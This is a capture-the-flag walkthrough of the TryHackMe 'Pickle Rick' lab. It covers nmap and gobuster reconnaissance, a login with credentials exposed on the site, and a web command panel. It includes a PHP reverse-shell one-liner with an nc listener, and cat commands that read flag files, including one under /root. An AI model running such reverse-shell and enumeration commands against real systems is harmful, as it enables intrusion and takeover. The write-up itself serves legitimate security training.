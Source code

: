 ## Try Hack Me Pickle Rick (Easy)
https://tryhackme.com/room/picklerick

### 🧁nmap
```
nmap -Pn -sV -sT -T4 -A 10.10.164.54 -p- -vv
```

```
Not shown: 65513 closed tcp ports (conn-refused)
PORT      STATE    SERVICE    REASON      VERSION
22/tcp    open     ssh        syn-ack     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 7b:37:06:24:e5:3e:e9:fb:dd:23:85:e1:9a:b8:ed:9f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDT81rApdbIqrliStEeJd//NKS3V2Ca81KZ9e1omNR6Vu1b7txqq5/482iWYJ+yUcooDvWov4yzRPlftP12Lc3SIAr6cGjlYOLko8KMQQBQc5diWT7jHJhDLoMi7PaqTi5psNR2ePPaW+sz++DLWmDUYNLk9Z8Og+MZ09ugFBftgDOcJLExrJtJ1kGbslB+wjfZxAgHaLfLthdszonmbxCgUPBMhkA5xdSPvQlH7jvvxM7s5ism3XXL0ZeRykRXuxHPppchhy4Tfjym1XnUuKAwoUiXjVqxpnzrEG3fduFXBYDi/kVp5+mN5RBlLU6S6OPpjFzTA6Zv5e9yRluD5Cg9
|   256 56:5b:52:d5:96:17:30:43:a4:44:40:22:fd:cd:4e:a8 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiZLP3/I06uORHJxSANOD67D2v7wwz3heBtgMVli4QBmEvXHYm53Lzw6yz5pTl8m01+2LxALaTNL2SagNk00jU=
|   256 19:ad:3f:6d:c4:29:2c:82:97:63:23:b3:93:ba:e4:f5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAID8Z/Gfb4vuSqzbEbUY6ngoyFGJpygvAYaPeuozk29eS
80/tcp    open     http       syn-ack     Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)

```
🚩22 ssh, 80 http open


```
curl 10.10.164.54
```

```
<!DOCTYPE html>
<html lang="en">
<head>
  <title>Rick is sup4r cool</title>
</head>
<body>

  <div class="container">
    <div class="jumbotron"></div>
    <h1>Help Morty!</h1></br>
    <p>Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!</p></br>
    <p>I need you to <b>*BURRRP*</b>....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is,
    I have no idea what the <b>*BURRRRRRRRP*</b>, password was! Help Morty, Help!</p></br>
  </div>

  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->

</body>
</html>
```

🚩Username: R1ckRul3s

### 🧁gobuster
```
gobuster dir -u http://10.10.164.54 -w common.txt -x html,shtml,php,jsp,zip,gz,tar,bk -t 50 -b 403,404
```

```
/assets               (Status: 301) [Size: 313] [--> http://10.10.164.54/assets/]
/denied.php           (Status: 302) [Size: 0] [--> /login.php]
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/robots.txt           (Status: 200) [Size: 17]
```

![image](https://user-images.githubusercontent.com/6504854/177176350-7fb88066-a6ef-44e8-a349-87eb04b95932.png)

![image](https://user-images.githubusercontent.com/6504854/177176488-1c82a4ae-2ff9-4302-a433-0ba4ae5d6f2e.png)

![image](https://user-images.githubusercontent.com/6504854/177176572-826a6985-115f-4064-a5c7-b254eb12d3fe.png)

### 🧁web-shell
Login Username:R1ckRul3s Pass:Wubbalubbadubdub
use command panel
![image](https://user-images.githubusercontent.com/6504854/177176919-7d3ad620-c63e-4657-b49c-997c7f00143e.png)

```
nc -lnvp 4444
```

```
php -r '$sock=fsockopen("10.10.10.10",4444);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```
![image](https://user-images.githubusercontent.com/6504854/177181156-74abc304-0a75-446c-93a5-ce76a845314f.png)

![image](https://user-images.githubusercontent.com/6504854/177181337-8bfd5398-00a7-434b-9b66-cea9241685bd.png)

### 🧁flag
```
cat Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```

```
cd /home
ls
rick
ubuntu
cd /home/rick
ls
second ingredients
cat 'second ingredients'
1 jerry tear
```

```
ls /root
3rd.txt
snap
cat /root/3rd.txt
3rd ingredients: fleeb juice
```

😄Happy hacking. Thank you for your time.
